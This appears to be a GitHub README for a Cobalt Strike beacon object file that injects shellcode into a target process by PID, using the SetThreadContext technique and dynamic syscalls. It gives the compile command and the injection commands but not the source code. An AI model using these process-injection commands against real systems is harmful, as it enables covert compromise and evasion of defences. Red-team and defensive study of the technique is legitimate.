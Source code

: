 # Dynamic Syscall SetThreadContext Inject 

This is based on XPN's SetThreadContext technique as a beacon object file and using dynamic syscalls.

Based on ajpc500's method of beacon object file dynamic syscalls.

# Compile
`x86_64-w64-mingw32-gcc -c dynamicsyscall_stcinject.c -o dynamicsyscall_stcinject.o`

# Usage

NOTE: Currently only for x64

Load the CNA script in Cobalt Strike, then the following command will be included:

`dsyscall_stc_inject PID Listener` - Inject shellcode created for listener to target PID

`dsyscall_stc_shinject PID /path/to/payload.bin` - Inject payload.bin file to target PID
